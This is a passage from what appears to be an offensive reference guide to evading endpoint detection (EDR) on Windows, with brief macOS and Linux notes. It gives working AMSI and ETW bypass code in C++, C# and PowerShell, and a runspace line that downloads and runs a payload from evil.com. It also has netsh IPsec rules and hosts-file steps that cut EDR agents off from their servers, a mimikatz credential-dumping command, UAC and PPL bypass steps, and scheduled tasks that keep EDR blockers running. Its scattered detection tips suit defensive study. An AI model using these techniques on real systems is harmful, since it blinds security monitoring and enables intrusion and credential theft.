  2.  Junction Creation: Create a directory junction from `ShaderCache` to `\??\GLOBALROOT\RPC CONTROL`.
  3.  Symbolic Link: Determine a recently used filename within `ShaderCache` (before clearing). Create an object directory symbolic link (`CreateDosDevice`) from `Global\GLOBALROOT\RPC CONTROL\<recent_filename>` to a target DLL path (e.g., `\??\C:\Windows\System32\oci.dll`).
  4.  Trigger Write: Launch an auto-elevated process (e.g., `taskmgr.exe`) that writes to `ShaderCache`. The write operation follows the junction and then the symbolic link, resulting in the creation of a (dummy) target file (e.g., `oci.dll`) in a privileged location (`System32`).
  5.  Overwrite & Execute: Overwrite the created dummy file with the actual malicious DLL. Launch a process (like `comexp.msc`) that attempts to load the target DLL, thereby executing the malicious code with elevated privileges.
- EDR Relevance:
  - Bypasses User Account Control (UAC), a primary defense layer.
  - Relies on manipulating file system objects (junctions, symlinks) and process interactions that EDRs monitor.
  - Involves potentially noisy actions like mass process termination and permission changes.
  - The final payload execution often relies on DLL hijacking techniques.

> [!TIP]
> Symlink/junction UAC races are build‑dependent and brittle. Validate on the specific target build; many have partial or complete mitigations.

#### PPL (Protected Process Light) Bypass

**Concept**: Bypass Protected Process Light security by creating alternative service configurations that avoid PPL protections.

**Palo Alto Cortex XDR PPL Bypass Technique**:

```powershell
# Create alternative service that launches cyserver.exe without PPL protection
sc create "fake_cyserver" binPath="C:\Program Files\Palo Alto Networks\Traps\cyserver.exe" start=auto
```

**How it works**:

- Creates a second service that launches the EDR's main process (cyserver.exe)
- Original PPL-protected service fails to start due to startup dependencies
- New service configuration is not protected by EDR drivers
- EDR process runs without PPL protection, expanding attack surface

**Limitations**:

- Service names beginning with "cyserver\*" are blocked by some EDR implementations
- EDR functionality may remain intact despite PPL bypass
- Self-protection mechanisms may still be active at process level
- Vendor response varies - may not be considered a security vulnerability

**Detection & Response**:

- EDR thinks original service is stopped but agent continues running
- Attack surface increases as process no longer has PPL protections
- Reported to Palo Alto on 12.09.2023 with limited vendor response

**Broader Implications**:

- Demonstrates service configuration vulnerabilities in EDR implementations
- Shows potential for bypassing Windows security features through alternative execution paths
- Relevant for other EDRs that rely on PPL for self-protection

#### Using `NtCreateUserProcess` for Stealthy Process Creation

The native API `NtCreateUserProcess()`, located in `ntdll.dll`, is the lowest-level user-mode function for creating processes. Calling it directly can bypass EDR hooks placed on higher-level functions like `CreateProcessW` in `kernel32.dll`. This makes it a valuable technique for stealthier process creation.

**Key Concepts:**

- **Bypass Mechanism**: Avoids user-land hooks on more commonly monitored APIs like `CreateProcessW`.
- **Process Parameters**: Requires careful setup of structures like `RTL_USER_PROCESS_PARAMETERS` (often via `RtlCreateProcessParametersEx`), `PS_CREATE_INFO`, and `PS_ATTRIBUTE_LIST`.
  - `RTL_USER_PROCESS_PARAMETERS`: Defines process startup information, including image path, command line, environment variables, etc. The `ImagePathName` must be in NT path format (e.g., `\??\C:\Windows\System32\executable.exe`).
  - `PS_ATTRIBUTE_LIST`: Can specify attributes like the image name.
- **Flags**: `ProcessFlags` and `ThreadFlags` allow fine-grained control over process and thread creation (e.g., creating suspended). Sources like Process Hacker's headers (`ntpsapi.h`) can provide valid flag definitions. For minimal use, these can sometimes be `NULL`.
- **Implementation Details**: Involves initializing several structures and using functions from `ntdll.dll` such as `RtlInitUnicodeString`, `RtlCreateProcessParametersEx`, and `RtlAllocateHeap`. The article also mentions that the `ProcessParameters` argument for `NtCreateUserProcess` was found to be mandatory, and `RtlCreateProcessParametersEx` is used with the `RTL_USER_PROCESS_PARAMETERS_NORMALIZED` flag. The `PS_CREATE_INFO` structure needs its `Size` and `State` (e.g., `PsCreateInitialState`) members initialized. The `PS_ATTRIBUTE_LIST` is populated to include the image name.

**Example High-Level Steps:**

1.  Define the path to the executable using `UNICODE_STRING` and initialize it with `RtlInitUnicodeString` (e.g., `L"\??\C:\Windows\System32\calc.exe"`).
2.  Create and populate `RTL_USER_PROCESS_PARAMETERS` using `RtlCreateProcessParametersEx`, providing the image path and normalizing parameters.
3.  Initialize a `PS_CREATE_INFO` structure.
4.  Allocate and initialize a `PS_ATTRIBUTE_LIST`, setting the `PS_ATTRIBUTE_IMAGE_NAME` attribute with the image path.
5.  Call `NtCreateUserProcess` with the prepared handles, access masks, and structures.
6.  Perform cleanup, for instance, by calling `RtlFreeHeap` and `RtlDestroyProcessParameters`.

This technique allows for creating a new process with more direct control, potentially evading EDRs that primarily hook `kernel32.dll` API calls. However, EDRs with kernel telemetry or hooks deeper within `ntdll.dll` (or monitoring syscalls directly) might still detect the `NtCreateUserProcess` call or the subsequent behavior of the spawned process.

#### Advanced Process Execution Alternatives

- [TangledWinExec](https://github.com/daem0nc0re/TangledWinExec) - alternative process execution techniques
- [rad9800](https://github.com/rad9800/misc/blob/main/bypasses/WorkItemLoadLibrary.c) - indirectly loading DLL through a work item

#### Acquiring Process Handles

- Without using suspicious `OpenProcess`:
  - Find `explorer.exe` window handle using `EnumWindows`
  - Convert to process handle with `GetProcessHandleFromHwnd`
  - Leverage `PROCESS_DUP_HANDLE` to duplicate into a pseudo handle for [Full Access](https://jsecurity101.medium.com/bypassing-access-mask-auditing-strategies-480fb641c158)

### Callstack Manipulation

#### Return Address Overwrite

- overwrite function's return address with 0
  - that terminates call stack's unwinding algorithm
  - examination based on `DbgHelp!StackWalk64` fails
- implement custom API resolver similar to `GetProcAddress`
  - before calling out to suspicious functions, overwrite `RetAddr :=0`
  - when system API returns, restore own `RetAddr`

#### Callstack Spoofing

- Manipulates the call stack to appear legitimate
- Makes it harder to detect malicious code execution
- Tools and techniques:
  - ThreadStackSpoofer
  - CallStackSpoofer
  - AceLdr
  - CallStackMasker
  - Unwinder
  - TitanLdr
  - [uwd](https://github.com/joaoviictorti/uwd) - Rust library for call stack spoofing with `#[no_std]` support
    - Offers both `Synthetic` (thread-like stack emulation) and `Desync` (JOP gadget-based stack misalignment) methods
    - Provides inline macros for spoofing functions and syscalls
    - Compatible with both MSVC and GNU toolchains on x86_64

### Control Flow Manipulation

#### Control Flow Hijacking via Data Pointers

- Concept: Overwrite function pointers located in readable/writable memory sections (e.g., `.data`) to hijack control flow when that pointer is called. A key benefit is potentially avoiding noisy API calls like `VirtualProtectEx` if the target pointer already resides in a writable section.
- Target: Often targets pointers within `KnownDlls` (e.g., `ntdll.dll`, `combase.dll`) as they load at predictable base addresses across processes, simplifying remote process injection and pointer discovery.
- Mechanism:
  1.  Identify a function pointer stored in a writable section (`.data`). This can be done manually via disassembly or automatically by scripting searches for code patterns (e.g., finding `tailcall(rax)` instructions where `rax` is loaded from `.data`).
  2.  In a target process, allocate memory for shellcode (or a stub).
  3.  Write the shellcode/stub to the allocated memory.
  4.  Overwrite the original function pointer in the writable section to point to the shellcode/stub. This typically requires `PROCESS_VM_WRITE` permissions.
  5.  Execution is diverted when the legitimate code path calls the hijacked function pointer.
- Example: The blog post details hijacking `combase.dll!__guard_check_icall_fptr`.
- Advantages:
  - Can avoid direct calls to commonly monitored APIs used in other injection techniques (like `CreateRemoteThread`, `QueueUserAPC`).
  - If the target pointer resides in memory that is already writable, it may avoid the need for `VirtualProtectEx`, reducing noise.
- Detection/Context: While this bypasses direct hooks on APIs like `VirtualProtect` or `CreateRemoteThread`, EDRs may still detect the initial `WriteProcessMemory` to the `.data` section or correlate the unusual execution flow originating from a data segment via kernel callbacks or ETW.

#### Hookchain

- Resolve System Service Number
- Map critical functions
  - `NtAllocateReserveObject`
  - `NtAllocateVirtualMemory`
  - `NtQueryInformationProcess`
  - `NtProtectVirtualMemory`
  - `NtReadVritualMemory`
  - `NtWriteVirtualMemory`
- Create a relationship table with SSN + Custom stub function of critical `ntdll.dll` and hooked functions
- Implant IAT hook at all DLL subsystems that points to `ntdll.dll` critical and hooked functions(DLL pre-loading)
- Use Indirect system call + mapped critical functions and modification of IAT of key DLL functions before call to `ntdll.dll` to bypass EDR

### ETW and AMSI Evasion

#### ETW Patching

- Patch Event Tracing for Windows functionality
- Prevents telemetry from being sent to the EDR
- Targets ETW provider registration or logging mechanisms

> [!CAUTION]
> Defender engine 1.417  re‑hooks common byte patches within ~50 ms. Prefer **callback filtering** (e.g., wrapping `EtwEventWriteFull`) or the patch‑less SharpBlock fork.

#### ETW Evasion Techniques

- Significant delays among risky events: `alloc`, `write`, `exec` - "Driploader" style
- `ntdll!EtwEventWrite` patching
- Disabling tracing via `ntdll!EtwEventUnregister`

#### AMSI Bypass/Patching

- Bypasses Anti-Malware Scan Interface
- Patches AMSI functionality in memory
- Prevents script scanning before execution
- Defender now ships dynamic signature **VirTool:Win64/HBPAmsibyp.A** that fires on known NOP‑sled prologues. A stealthier option is to swap to a COM‑visible PowerShell runspace instead of patching `AmsiScanBuffer`.

#### AMSI and ETW Evasion Implementation

- AMSI (`amsi.dll!AmsiScanBuffer`):
  - Patch the function prologue
  - Alternatively, increment AMSI magic value deeper in code
- ETW (`ntdll.dll!NtTraceEvent` and `ntdll.NtTraceControl`):
  - Use patchless strategy for evasion
- Consider tools like [SharpBlock](https://github.com/CCob/SharpBlock)

#### Modern AMSI Bypass Techniques

Classic `AmsiScanBuffer` patching (e.g., overwriting with `ret` or NOP sled) is now detected by Defender's **VirTool:Win64/HBPAmsibyp.A** signature and engine 1.425.x uses CFG/XFG checks to validate function integrity.

**Patchless AMSI bypass (VEH / vtable)**

- VEH-based bypass: Register vectored exception handlers to set hardware breakpoints on `amsi.dll!AmsiScanBuffer` and re-route execution to a benign stub without byte-patching (a.k.a. VEH²). This avoids obvious prologue modifications.
- COM/vtable approach: Overwrite IAmsiStream vtable entries or CLSID pointers used during `AmsiInitialize` so the provider cannot be created and AMSI calls short-circuit — again without altering `AmsiScanBuffer` bytes.
- Defender considerations: 2024–2025 engines re-hook common byte patches rapidly; patchless flows reduce simple signature hits but still leave behavioral traces.
- Blue detections:
  - Monitor `AddVectoredExceptionHandler` usage paired with debug register changes (`CONTEXT.Dr0–Dr7`) shortly before AMSI invocations.
  - Hunt for unusual call stacks entering `AmsiScanBuffer` that immediately return, and COM activation failures around AMSI provider creation.
  - ETW/PowerShell: alert on script engines loading `amsi.dll` followed by VEH registration and memory permission flips.

**1. COM VTable Hooking Method**

Instead of patching `AmsiScanBuffer`, hook the IAmsiStream COM interface:

```cpp
// Locate IAmsiStream COM object in amsi.dll
typedef interface IAmsiStream IAmsiStream;

HRESULT HookAmsiStream() {
    // Get amsi.dll base
    HMODULE hAmsi = GetModuleHandleA("amsi.dll");
    if (!hAmsi) return E_FAIL;

    // Locate IAmsiStream vtable (varies by Windows version)
    // Example: scan for known vtable patterns
    LPVOID** ppVTable = /* find IAmsiStream instance */;

    // Hook QueryInterface or GetAttribute methods
    DWORD oldProtect;
    VirtualProtect(ppVTable, sizeof(LPVOID) * 10, PAGE_READWRITE, &oldProtect);

    // Replace function pointer with benign stub
    ppVTable[0] = (LPVOID*)MyQueryInterface;  // Return E_NOTIMPL

    VirtualProtect(ppVTable, sizeof(LPVOID) * 10, oldProtect, &oldProtect);
    return S_OK;
}

HRESULT STDMETHODCALLTYPE MyQueryInterface(IUnknown* This, REFIID riid, void** ppv) {
    // Return E_NOTIMPL to skip scanning
    return E_NOTIMPL;
}
```

**2. ETW Provider Registration Manipulation**

Modify ETW provider registration to disable telemetry without patching:

```cpp
// Manipulate ETW provider via TI (Threat Intelligence) session
#include <evntrace.h>

BOOL DisableETWProvider(LPCGUID ProviderGuid) {
    EVENT_TRACE_PROPERTIES props = {0};
    props.Wnode.BufferSize = sizeof(EVENT_TRACE_PROPERTIES);
    props.Wnode.Guid = *ProviderGuid;
    props.Wnode.ClientContext = 1;
    props.Wnode.Flags = WNODE_FLAG_TRACED_GUID;
    props.LogFileMode = EVENT_TRACE_REAL_TIME_MODE;

    // Disable the provider
    return ControlTraceA(0, "EventLog-Application", &props, EVENT_TRACE_CONTROL_STOP) == ERROR_SUCCESS;
}

// Target Microsoft-Windows-PowerShell provider
GUID PowerShellProvider = { 0xA0C1853B, 0x5C40, 0x4B15,
    { 0x8B, 0x66, 0xD7, 0x4F, 0x9C, 0x91, 0xCC, 0x4C } };
DisableETWProvider(&PowerShellProvider);
```

**3. AMSI Context Manipulation**

Forge the AMSI context session to bypass scanning:

```cpp
// Structure definitions (reverse-engineered)
typedef struct _AMSI_CONTEXT {
    DWORD Signature;      // 'AMSI' (0x49534D41)
    PVOID Session;
    // ... other fields
} AMSI_CONTEXT, *PAMSI_CONTEXT;

BOOL BypassAmsiContext(PAMSI_CONTEXT pContext) {
    if (pContext->Signature != 0x49534D41) return FALSE;

    // Corrupt the signature to invalidate context
    DWORD oldProtect;
    VirtualProtect(pContext, sizeof(DWORD), PAGE_READWRITE, &oldProtect);
    pContext->Signature = 0;  // Invalidate
    VirtualProtect(pContext, sizeof(DWORD), oldProtect, &oldProtect);

    return TRUE;
}
```

**4. PowerShell Runspace Alternative (Patchless)**

Use a COM-visible PowerShell runspace that bypasses AMSI entirely:

```csharp
using System.Management.Automation;
using System.Management.Automation.Runspaces;

// Create runspace without AMSI
var initialSessionState = InitialSessionState.CreateDefault();
initialSessionState.LanguageMode = PSLanguageMode.FullLanguage;

// This runspace has no AMSI hooks
var runspace = RunspaceFactory.CreateRunspace(initialSessionState);
runspace.Open();

var pipeline = runspace.CreatePipeline();
pipeline.Commands.AddScript("IEX (New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')");
pipeline.Invoke();
```

**5. Memory-Only AMSI Bypass (No Disk)**

Load a minimal AMSI bypass directly in memory without patching:

```powershell
# Reflection-based bypass (2025 variant)
$a = [Ref].Assembly.GetTypes()
ForEach($b in $a) {
    if ($b.Name -like "*iUtils") {
        $c = $b.GetFields('NonPublic,Static')
        ForEach($d in $c) {
            if ($d.Name -like "*Context") {
                $d.SetValue($null, 0)
            }
        }
    }
}
```

**Detection Evasion Notes:**

- **COM VTable Method:** Bypasses signature-based detection; harder to detect than direct patching
- **ETW Provider Manipulation:** Requires admin privileges but cleaner than hooking
- **Context Corruption:** Minimal memory writes; low detection surface
- **Runspace Method:** No patching required; entirely legitimate PowerShell usage
- **Reflection Method:** PowerShell-only; works in constrained language mode bypass scenarios

**Blue Team Detection:**

Monitor for:

- Unusual COM interface access patterns to `amsi.dll`
- ETW provider manipulation via `ControlTrace` API
- PowerShell runspace creation with `FullLanguage` mode in restricted environments
- Reflection access to `System.Management.Automation` internal structures

### Platform Realities & Defender Hunts

#### Windows 11

- 24H2+ Security Baseline
  - Hardware‑Enforced Stack Protection (CET/Shadow Stack) breaks naïve call‑stack spoofing; evasions must maintain valid shadow stacks.
  - LSASS protection (RunAsPPL) is on by default on recent fresh installs; expect minidump blockers. Favor live‑off‑land telemetry for detection/response.
  - HVCI/KDP/Secure Launch raise the bar on BYOVD and protected pages. Hunt for policy flips and failed driver loads.
- Quarterly Vulnerable Driver Blocklist
  - `DriverSiPolicy.p7b` enabled by default on Windows 11 22H2+
  - Automatic updates every Patch Tuesday via Windows Update
  - Blocks known vulnerable drivers before they can load
  - BYOVD attacks now often require two-stage driver chains
  - Monitor for policy tampering: `HKLM\SYSTEM\CurrentControlSet\Control\CI\Policy`
- Kernel Data Protection (KDP)
  - Protects critical kernel structures and EDR code pages
  - Makes them read-only even to kernel-mode drivers
  - Requires HVCI to be enabled
  - Significantly raises bar for kernel-mode EDR killers
  - Verify status: `Get-ComputerInfo | Select CsDeviceGuardSecurityServicesRunning`
- Confidential Computing Support
  - Intel TDX (Trust Domain Extensions) for VM-level isolation
  - AMD SEV-SNP (Secure Encrypted Virtualization) support
  - Protects guest VMs from hypervisor inspection
  - EDR visibility limited in confidential VMs
  - Requires specialized attestation and monitoring approaches

#### macOS

- Use EndpointSecurity (ES) events with unified logs; monitor `syspolicyd` Gatekeeper verdicts and TCC changes.
- macOS Sequoia (15) enhances XProtect and Background Task Management
- Notarization requirements increasingly strict for all distributed software

#### Linux/Kubernetes

- Hunt eBPF program/map churn and sensor detaches; sidecars outside node‑agent PID filters; attempts to access runtime sockets.
- eBPF-based EDR becoming standard (Falco, Tetragon, Cilium)
- Container runtime security monitoring essential
- Service mesh observability integration (Istio, Linkerd)

### Network-Based EDR Silencing

These techniques focus on disrupting the EDR agent's communication with its management servers, effectively blinding it without directly tampering with the agent process itself.

#### Sinkholing by Secondary IP Addresses

- Concept: Assign secondary IP addresses to local network interfaces that match the IP addresses of the EDR's communication endpoints (C2 servers, telemetry collectors).
- Mechanism: When the EDR agent attempts to connect to its server IP, the network stack routes the traffic to the local interface instead, effectively dropping the connection.
- Implementation:
  - Identify EDR communication IPs (e.g., using network monitoring).
  - Manually assign IPs via Network Adapter Properties > IPv4 > Advanced > IP Settings (requires static IP configuration, not DHCP).
  - Use PowerShell: `New-NetIPAddress -InterfaceAlias "Ethernet" -IPAddress <EDR_IP> -PrefixLength 32`
  - Use `netsh`: `netsh interface ipv4 add address "Ethernet" <EDR_IP> 255.255.255.255`
  - Scripting: Tools like `IPMute` can monitor process network connections and dynamically add remote IPs as secondary local IPs.
- Persistence/Detection:
  - Static IP settings are stored in `HKLM\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\{GUID}\IPAddress`.
  - Changes made via PowerShell/GUI/netsh modify the registry via `wmiprvse.exe`/`DllHost.exe`/`netsh.exe` respectively.
  - A device configuration profile that sets `VpnTrafficFilterList` will **override** any locally created IPsec rules.
  - Direct registry edits require an interface disable/enable cycle to take effect.

> [!CAUTION]
> Some EDR/XDR products flag sudden `/32` self‑IP assignments (host routes) created with `New‑NetIPAddress` as potential IP spoofing. Expect alerts on repeated adds/removes or tight timing around agent network failures. Prefer `/31` pairs or upstream firewall/DNAT approaches where possible.

#### IPSec Filter Rules

- Concept: Leverage Windows IPsec policies to create rules that block traffic to specific EDR IPs, IP ranges, or even domains, even without a full IPsec deployment.
- Mechanism: IPsec rules operate at a low level and can filter traffic based on source/destination addresses and protocols. Rules can block specific connections required by the EDR.
- Implementation (using `netsh`):

  ```powershell
  # Create a blocking policy
  netsh ipsec static add policy name=BlockPolicy description="Block EDR Comms"
  netsh ipsec static set policy name=BlockPolicy assign=y

  # Create a filter list
  netsh ipsec static add filterlist name=BlockFilterList

  # Add filters (examples)
  # Block specific IP
  netsh ipsec static add filter filterlist=BlockFilterList srcaddr=me dstaddr=<EDR_IP> protocol=any description="Block EDR IP"
  # Block subnet
  # netsh ipsec static add filter filterlist=BlockFilterList srcaddr=me dstaddr=<EDR_Subnet> dstmask=<Subnet_Mask> protocol=any description="Block EDR Subnet"
  # Block domain (resolves IPs at rule creation time)
  # netsh ipsec static add filter filterlist=BlockFilterList srcaddr=me dstaddr=<EDR_Domain.com> protocol=any description="Block EDR Domain"

  # Create a blocking action
  netsh ipsec static add filteraction name=BlockFilterAction action=block

  # Create the rule linking the filter list and action to the policy
  netsh ipsec static add rule name=BlockRule policy=BlockPolicy filterlist=BlockFilterList filteraction=BlockFilterAction description="IPSec Block Rule for EDR"
  ```

- Persistence/Detection:
  - IPsec policy configuration is stored in the registry under `HKLM\Software\Policies\Microsoft\Windows\IPSec\Policy\Local\`.
  - Rule creation via `netsh` writes registry values via `netsh.exe`. GUI edits use `mmc.exe`.
  - These registry keys can be monitored or potentially protected.
- Cleanup:
  ```powershell
  netsh ipsec static delete policy name=BlockPolicy
  ```

#### DNS Sinkholing

##### Hosts File Modification

- Concept: Add entries to the system's `hosts` file (`C:\Windows\System32\drivers\etc\hosts`) mapping EDR domain names to `127.0.0.1` or `0.0.0.0`.
- Mechanism: When the EDR agent performs a DNS lookup for its server, the `hosts` file takes precedence, resolving the domain to localhost and preventing the actual connection.
- Limitations:
  - Does not affect existing established connections.
  - DNS resolutions might be cached within the EDR process itself.
  - Requires clearing DNS cache (`ipconfig /flushdns`) and potentially waiting or restarting the EDR process/system.
  - Ineffective if the EDR uses hardcoded IP addresses.

##### Changing DNS Servers

- Concept: Modify the system's DNS server settings to point to an attacker-controlled DNS server or a public DNS filtering service (like OpenDNS) configured to block EDR domains.
- Mechanism: All DNS lookups from the system (including the EDR) are routed through the malicious/filtering DNS server, which returns incorrect or blocked responses for EDR domains.
- Limitations:
  - Same caching issues as hosts file modification apply.
  - Requires administrative privileges to change system-wide DNS settings.
  - Easily detectable if network settings are monitored.

#### Agent Tampering & Tamper‑Protection Bypasses

- Microsoft Defender's Tamper Protection (and similar vendor self‑protection) can be disabled by
  - Launching a TrustedInstaller‑child process and modifying service registry keys (e.g., `sc config Sense start= disabled`).
  - Changing ACLs on `WdFilter` or `SenseIR` registry values, then rebooting so the filter driver never loads.
- Many commercial EDRs expose self‑protection flags via WMI namespaces; clearing the flag allows the agent service to be stopped or deleted.
- **Detection guidance:** alert on writes to antivirus/EDR service parameters or attempted driver unloads while the service is running.

#### Cloud‑Side XDR Telemetry Throttling & Poisoning

- Local evasion is incomplete: vendors replay queued events when connectivity returns.
- Attackers therefore:
  - Throttle upload intervals (e.g., `SenseUploadFrequency`) to several hours.
  - Inject thousands of benign events (mass process creations) to drown anomaly‑detection models (“telemetry poisoning”).
- Blue teams should monitor for sudden policy flips or extreme event‑volume spikes with low entropy.

#### Scanning Engine DoS Attacks

A technique to disable EDRs by exploiting memory corruption vulnerabilities in their file scanning engines, particularly effective against Microsoft Defender.

**Concept:**

- Trigger memory corruption bugs in EDR scanning engines
- Crashes the main EDR process when malicious files are scanned
- Can be deployed alongside initial access payloads or before credential dumping

**Microsoft Defender Targeting (`mpengine.dll`):**

_File-based DoS Vectors:_

```powershell
# Create malicious files that crash Defender during scanning
# PE files with specific corruption patterns
# Encrypted Office documents with malformed saltSize values
# JavaScript files that trigger emulation crashes
# Mach-O files that cause Lua script execution errors
```

_Delivery Methods:_

```html
<!-- Web-based delivery via download -->
<a href="malicious.pdf" download>Download PDF</a>
<!-- Crashes Defender when Real-time Protection scans the file -->
```

```powershell
# SMB share delivery for lateral movement
copy crash_defender.docx \\target\share\documents\
# Defender crashes when scanning uploaded file
mimikatz.exe privilege::debug sekurlsa::logonpasswords
```

_Email attachment delivery:_

```powershell
# Email malicious files that crash Defender during email scanning
# Particularly effective against organizations with Defender for Office 365
# Timing allows subsequent payloads to execute without detection
```

**Attack Sequence for Initial Access:**

1. Deliver crash file alongside main payload
2. Crash file triggers when Defender scans downloads folder
3. Main EDR process (MsMpEng.exe) crashes and restarts
4. Execute main payload during restart window
5. Subsequent malicious activity may go undetected

**Attack Sequence for Internal Movement:**

1. Upload crash file to network share before credential dumping
2. Wait for Defender to scan and crash
3. Execute credential dumping tools (Mimikatz, etc.)
4. EDR restart may not catch the dumping activity

**Limitations:**

- Requires specific file format knowledge
- Some crashes only occur with PageHeap enabled
- Microsoft may quietly patch vulnerabilities
- Defender restarts automatically, limiting window
- Other EDR vendors may have different scanning engines

**Defensive Considerations:**

- Monitor for unexpected MsMpEng.exe crashes
- Implement scanning engine crash alerting
- Consider sandboxing file scanning processes
- Deploy additional EDR solutions for redundancy

### EDR-Specific Driver Interface Abuse

#### ALPC Communication Attacks

Advanced Local Procedure Call (ALPC) is commonly used for EDR inter-process communication and presents a significant attack surface:

##### Windows ALPC Technical Background

**ALPC Overview:**

- Windows Advanced (or Asynchronous) Local Procedure Call is an IPC mechanism for same-host communication
- Undocumented by Microsoft - developers intended to use official libraries like RPCRT4.dll
- Fast and efficient mechanism heavily used within Windows OS
- Commonly implemented as Windows RPC "ncalrpc" transport

**ALPC Port Registration:**

```cpp
// Example ALPC-RPC Server Registration (from Cortex XDR analysis)
RpcServerUseProtseqEp(L"ncalrpc", RPC_C_PROTSEQ_MAX_REQS_DEFAULT, endpoint, NULL);
RpcServerRegisterIf(interface_handle, NULL, NULL);
RpcServerListen(1, RPC_C_LISTEN_MAX_CALLS_DEFAULT, FALSE);
```

**Key ALPC Characteristics:**

- **Port Naming**: If port name is NULL, random name like `LRPC-71dcaff45b0f633aad` is assigned
- **Access Control**: Ports can be restricted using Security Descriptors
- **Endpoint Mapper**: Most EDR ports are NOT registered at RPC Endpoint Mapper
- **Visibility**: ProcessHacker/SystemInformer displays all ports in Handles tab; WinObj shows them under `\RPC Control\`
- **Client Connection**: Clients connect using port name or interface UUID (if registered)

**ALPC Vulnerability Categories:**

- **Weak Access Control**: Missing restrictions leading to unauthorized access
- **Memory Corruption**: Bugs in function parameter handling
- **Impersonation Issues**: Though usefulness in realistic scenarios unclear
- **DoS via Blocking**: The vulnerability class discovered in this research (previously undiscussed publicly)

#### Namespace Object Exploitation

**Object Manager Namespace Attacks:**

- Exploit how EDRs handle preexisting objects in the Object Manager's namespace
- Can cause permanent agent crashes/stops for low-privileged users
- Part of the broader ALPC blocking vulnerability class affecting multiple EDR vendors

**Technical Background:**

- Windows Object Manager maintains a hierarchical namespace for kernel objects
- Objects include mutexes, events, semaphores, ALPC ports, and named pipes
- EDRs often use predictable object names for inter-process communication
- Poor error handling when objects already exist leads to initialization failures

**Exploitation Techniques:**

_ALPC Port Pre-registration:_

```powershell
# Create ALPC port with EDR's expected name
# This blocks the EDR from creating its communication channel
$portName = "LRPC-EDRCommPort"  # Example EDR port name
# Use RPC runtime to register port before EDR starts
```

_Mutex/Event Object Blocking:_

```powershell
# Example: Creating conflicting namespace objects
# This can interfere with EDR agent startup and operation
New-Item -Path "\\.\Global\EDR_AGENT_MUTEX" -Force

# Block common EDR synchronization objects
$objects = @(
    "\\.\Global\CortexAgentMutex",
    "\\.\Global\DefenderStartupEvent",
    "\\.\Global\EDRInitComplete"
)
foreach ($obj in $objects) {
    try { New-Item -Path $obj -Force } catch {}
}
```

_Named Pipe Blocking:_

```cpp
// Block EDR named pipes before agent startup
HANDLE hPipe = CreateNamedPipe(
    L"\\\\.\\pipe\\EDRCommunication",
    PIPE_ACCESS_DUPLEX,
    PIPE_TYPE_BYTE | PIPE_READMODE_BYTE | PIPE_WAIT,
    1, 1024, 1024, 0, NULL
);
```

**Persistence via Scheduled Tasks:**

```powershell
# High-priority logon trigger to win the race
schtasks /create /tn "SystemInit" /tr "C:\Windows\System32\namespace_blocker.exe" /sc onlogon /rl highest /ru "NT AUTHORITY\SYSTEM"

# Event-based trigger for specific scenarios
schtasks /create /tn "ServiceInit" /tr "C:\Tools\block_edr.exe" /sc onevent /ec system /mo "*[System[EventID=7036 and Data='Windows Defender Antivirus Service']]"
```

### Additional Evasion Techniques

#### Telemetry Complexity Attacks (TCAs)

A novel evasion technique that exploits mismatches between EDR data collection and processing capabilities:

##### Attack Mechanism

- Generates deeply nested and oversized telemetry data structures
- Exploits bounded processing capabilities vs unbounded data collection
- Stresses serialization and storage boundaries in EDR pipelines
- Causes denial-of-analysis without requiring privileges or sensor tampering

##### Impact

- Truncated or missing behavioral reports in EDR consoles
- Rejected database inserts due to size/complexity limits
- Unresponsive dashboards from query timeouts
- Silent failures in telemetry correlation engines

##### Technical Details

- Targets JSON/XML serialization depth limits
- Overflows event buffer ring structures
- Exploits database column size constraints
- Triggers timeout conditions in real-time analysis

#### Azure/Entra Device Attribute Manipulation

- Concept: Modify device attributes via dsreg.dll to potentially impact device identification or monitoring
- Mechanism: Uses Windows `dsregcmd /updateDevice` internally or direct API calls to modify device properties
- Logging implications:
  - `displayName` changes generate Azure audit logs (initiator: "Device Registration Service")
  - `hostnames` changes do not generate Azure audit logs at all
  - Both operations update local registry at `HKLM\SYSTEM\CurrentControlSet\Control\CloudDomainJoin\JoinInfo\{ID}\`
- Implementation via API requires device certificate authentication
- Limited attack surface but demonstrates interesting logging blind spots for cloud-managed devices

#### Conditional Access Evasion

- Conditional‑Access policies hinge on properties like `trustType`, `deviceComplianceState`, and risk level.
- Attackers possessing the device certificate can invoke `DsregSetDeviceProperty()` to flip these flags, then run `dsregcmd /refreshprereqs` to push altered attributes to Entra ID.
- **Impact:** stolen or cached tokens appear compliant, bypassing MFA or device‑based restrictions until the next compliance refresh.
- **Note:** "No detection" of the initial execution or implant drop doesn't guarantee that no alerts are generated for the blue team based on telemetry or subsequent actions.

#### String Obfuscation

- Use strings obfuscation libraries to make static analysis more difficult:
  - Golang - [Garble](https://github.com/burrowers/garble)
  - Rust - [obfstr](https://github.com/CasualX/obfstr)
  - Nim - [NimProtect](https://github.com/itaymigdal/NimProtect)

#### PE Attribute Cloning & Code Signing for Evasion

- **Cloning:** Modifying an implant's PE attributes (icon, version info, name, etc.) to match a legitimate, commonly found binary on the target system can aid evasion.
  - Cloning an _unsigned_ legitimate binary (like `at.exe`) and leaving the implant unsigned might bypass checks more effectively than cloning a _signed_ binary (like `RuntimeBroker.exe`) and signing the implant with a _spoofed_ certificate, especially if the defender verifies signatures for known system files.
- **Code Signing (Spoofed):** Signing an implant, even with an invalid or spoofed certificate (e.g., mimicking a legitimate entity), can sometimes reduce detection rates. Some AV/EDR solutions may not rigorously validate the certificate chain.
- **Timestamping Server:** The specific Time Stamp Authority (TSA) server used during the signing process can unexpectedly influence detection outcomes by different AV/EDR products.
- **Testing:** Effectiveness heavily depends on the specific EDR/AV and target environment configuration. Always test locally.

#### Entropy, File Pumping, Bloating

- Entropy measures how random data appears:
  - Lower entropy indicates less randomness
  - Higher entropy might flag as packed/compressed/anomalous
- Techniques to manipulate entropy:
  - Add long strings of random English words
  - Keep implant small but insert many English words (file bloating)
  - Bloat the file significantly so AV/EDR won't bother scanning

#### Time-Delayed Execution

- Allows execution to time-out emulation sweeps
- Slow down each step of malware execution: `alloc => chunk1 write ... chunkN write => execute`
- General Suggestions
  - use `SORTED-RVA` strategy
    - `FreshyCalls`
    - `Runtime Function Table`
  - don't rely on fresh `NTDLL.DLL` parsing, don't load one from process/memory
  - don't used direct syscalls that extract syscall

#### Emulator Evasion

- Environmental keying - check username, domain, specific UNC/SMB path, registry value
- IP geolocation - call out to services like `http://ip-api.com/json` to verify location
- Verify expected process/filename - sandboxes often rename samples to `<HASH>.exe`
